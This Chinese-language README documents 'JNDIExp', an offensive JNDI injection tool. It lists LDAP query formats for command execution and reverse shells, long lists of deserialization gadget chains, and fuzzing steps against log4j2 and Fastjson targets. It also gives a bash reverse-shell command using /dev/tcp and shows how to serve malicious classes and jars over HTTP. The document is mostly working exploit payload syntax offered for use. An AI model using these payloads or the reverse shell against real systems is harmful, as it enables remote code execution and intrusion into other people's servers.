



# JNDIEXP

# JNDIExp使用说明

用于 JNDI注入 利用的工具，参考/引用了 **Rogue JNDI** /**JNDIExploit**项目的代码。

## **使用说明**

- - - -
```java
Usage: java -jar JNDIInject-1.0-SNAPSHOT.jar [options]
  Options:
    -i, --ip       Local ip address  (default: 0.0.0.0)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show ALL usage (default: false)
    -f, --format   Show usage format (default: false)
    -L, --list     Show Payload List (default: false)
    -h, --help     Show this help
```
使用`java -jar JNDIInject.jar -u`查看全部完整的支持的 LDAP 格式以及爆破的字典
```java
java -jar JNDIInject.jar -u

Supported LADP Queries：
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://0.0.0.0:1389/basic/[PayloadType]/[Params], e.g.
    ldap://0.0.0.0:1389/basic/Command/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/basic/ReverseShell/[ip]/[port]  ---windows NOT supported

[+] ByPass Queries: ldap://0.0.0.0:1389/bypass/[PayloadType]/[Type]/[Params], e.g.
    ldap://0.0.0.0:1389/bypass/El/[cmd]
    ldap://0.0.0.0:1389/bypass/El/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/bypass/El/reverseshell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/bypass/El/reverseshell2/[ip]/[port]  ---windows NOT supported
    ----------------------------------------------------------------------------------------->
    [-] ByPass/Fuzz2 Payload that can be used: 
      CommonsBeanutils1
      CommonsCollections1
      CommonsCollections2
      CommonsCollections3
      CommonsCollections4
      CommonsCollections5
      CommonsCollections6
      CommonsCollections7
      CommonsCollectionsK1
      CommonsCollectionsK2
      CommonsCollectionsK3
      CommonsCollectionsK4
      C3P0
      C3P0Tomcat
      groovyBytomcat
      Clojure
      BeanShell1
      JSON1
      Spring1
      Spring2
      Hibernate1
      Myfaces1
      MozillaRhino1
      rome
      groovy1
      EL
      snakeyaml
      XStream
      mvel
      BeanShell2
      tomcat_dbcp1_RCE
      tomcat_dbcp2_RCE
      commons_dbcp1_RCE
      commons_dbcp2_RCE
      druidjdbc
      tomcatjdbc
      Vaadin1

[+] Fuzz Queries: ldap://0.0.0.0:1389/fuzz/[GadgetType]/[domain], e.g.
    ldap://0.0.0.0:1389/fuzz/EL/[domain]
    ----------------------------------------------------------------------------------------->
    [-] Fuzz Payload that can be used: 
      EL
      BeanShell2
      groovyBytomcat
      h2Driver
      tomcat_dbcp1_RCE
      commons_dbcp2_RCE
      commons_dbcp1_RCE
      druidjdbc
      tomcatjdbc
      snakeyaml
      XStream
      mvel
      CommonsBeanutils1
      CommonsCollectionsK1
      CommonsCollectionsK2
      Clojure
      Groovy
      C3P0
      JSON1
      FileUpload1
      hibernate
      MozillaRhino1
      Rome

[+] Fuzz2 Queries: ldap://0.0.0.0:1389/fuzz2/[GadgetType]/[domain], e.g.
    ldap://0.0.0.0:1389/fuzz2/EL/[domain]
```
使用`java -jar JNDIInject.jar -f`查看全部 LDAP 的格式
```JAVA
Supported LADP Queries：
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/basic/Command/base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/basic/ReverseShell/[ip]/[port]  ---windows NOT supported

[+] ByPass Queries: ldap://127.0.0.1:1389/bypass/[PayloadType]/[Type]/[Params], e.g.
    Example:ldap://127.0.0.1:1389/bypass/EL/[cmd]
    Example:ldap://127.0.0.1:1389/bypass/EL/base64/[base64_encoded_cmd]
    Example:ldap://127.0.0.1:1389/bypass/EL/reverseshell/[ip]/[port]  ---windows NOT supported
    Example:ldap://127.0.0.1:1389/bypass/EL/reverseshell2/[ip]/[port]  ---windows NOT supported

[+] Fuzz Queries: ldap://127.0.0.1:1389/fuzz/[GadgetType]/[domain], e.g.
    Example:ldap://127.0.0.1:1389/fuzz/EL/[domain]

[+] Fuzz2 Queries: ldap://127.0.0.1:1389/fuzz2/[GadgetType]/[domain], e.g.
    Example:ldap://127.0.0.1:1389/fuzz2/EL/[domain]
```
使用`java -jar JNDIInject.jar -L`查看各个模块可以使用的利用类
```java
 ----------------------------------------------------------------------------------------->
    [-] ByPass/Fuzz2 Payload that can be used: 
      CommonsBeanutils1
      CommonsCollections1
      CommonsCollections2
      CommonsCollections3
      CommonsCollections4
      CommonsCollections5
      CommonsCollections6
      CommonsCollections7
      CommonsCollectionsK1
      CommonsCollectionsK2
      CommonsCollectionsK3
      CommonsCollectionsK4
      C3P0
      C3P0Tomcat
      groovyBytomcat
      Clojure
      BeanShell1
      JSON1
      Spring1
      Spring2
      Hibernate1
      Myfaces1
      MozillaRhino1
      rome
      groovy1
      EL
      snakeyaml
      XStream
      mvel
      BeanShell2
      tomcat_dbcp1_RCE
      tomcat_dbcp2_RCE
      commons_dbcp1_RCE
      commons_dbcp2_RCE
      druidjdbc
      tomcatjdbc
      Vaadin1
    ----------------------------------------------------------------------------------------->
    [-] Fuzz Payload that can be used: 
      EL
      BeanShell2
      groovyBytomcat
      h2Driver
      tomcat_dbcp1_RCE
      commons_dbcp2_RCE
      commons_dbcp1_RCE
      druidjdbc
      tomcatjdbc
      snakeyaml
      XStream
      mvel
      CommonsBeanutils1
      CommonsCollectionsK1
      CommonsCollectionsK2
      Clojure
      Groovy
      C3P0
      JSON1
      FileUpload1
      hibernate
      MozillaRhino1
      Rome
```

## FUZZ模块
**说明：**由于可利用的链较多，各个利用链都有需要的依赖包，所以设计使用比较笨的方法进行fuzz，尽可能判断出可以利用的利用链。
本模块利用tomcat中的`org.apache.naming.factory.BeanFactory`和JDK自带的MLET类进行fuzz。

**缺点：**
1. 需要依赖tomcat的ObjectFactory类(org.apache.naming.factory.BeanFactory
2. 需要配合burpsutite的intruder模块
3. 配合http平台接收请求(推荐ceye)(使用`python3 -m http.server port`简易http接受请求)
下列为Fuzz使用的字典。
```
EL
BeanShell2
groovyBytomcat
h2Driver
tomcat_dbcp1_RCE
commons_dbcp2_RCE
commons_dbcp1_RCE
druidjdbc
tomcatjdbc
snakeyaml
XStream
mvel
CommonsBeanutils1
CommonsCollectionsK1
CommonsCollectionsK2
Clojure
Groovy
C3P0
JSON1
FileUpload1
hibernate
MozillaRhino1
Rome
```
**使用步骤：**
1. 利用DNSLOG发现log4j2漏洞或者Fastjson类能够发起ldap请求的漏洞。
2. 开启本工具进行监听
3. 利用字典替换fuzz后面的字段，进行爆破
4. 工具上收到请求后，去http平台上查看存在请求的类名。
5. http平台接收到类名基本上存在可利用的链(存在最新版本，反序列化无法利用的情况




- - - -
## FUZZ2模块
**说明：**直接使用已有的利用链直接生成发起dns请求的命令，搭配dns平台进行fuzz
下列为FUZZ使用字典
```
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
C3P0Tomcat
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
Myfaces1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1
```




## basic模块
**说明：**低版本的java环境包括11.0.1, 8u191, 7u201, 6u211版本开始做了限制之前的利用方式。本模块使用http请求的方式，返回给受害者恶意类执行。
**使用说明：**
```apl
/basic/base64/[base64_encode_command]
/basic/reverseshell/ip/port
```
reverseshell执行的命令为：`bash -c $@|bash 0 echo bash -I >& /dev/tcp/ip/port 0>&1`


## bypass模块
**说明：**使用两种加载本地classpath的类进行绕过的方法：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。这里使用ysoserial的反序列化链

可以使用链(PayloadType)：
```
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
C3P0Tomcat
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
Myfaces1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1
```
可使用的利用方式
```
/base64
/reverseshell
/reverseshell2
/
```
可以进行组合执行
```
/bypass/mvel/open%20-a%20calculator
/bypass/mvel/base64/b3BlbiAtYSBjYWxjdWxhdG9y
/bypass/mvel/reverseshell/127.0.0.1/4444
/bypass/mvel/reverseshell2/127.0.0.1/4444
```

## 利用链特殊说明

snakeyaml ：  `command=http://127.0.0.1:8080/exp.jar 加载恶意类`。可以使用提供的yaml-payload-master(需要修改代码，重新生成jar，内附使用说明)。

C3p0 ：`command=http://127.0.0.1:8080:Exploit(端口为默认为8080)`  data目录下的Exploit可以进行参考,直接修改Exploit.java的命令使用javac编译(不用另外起http服务)


# 总结


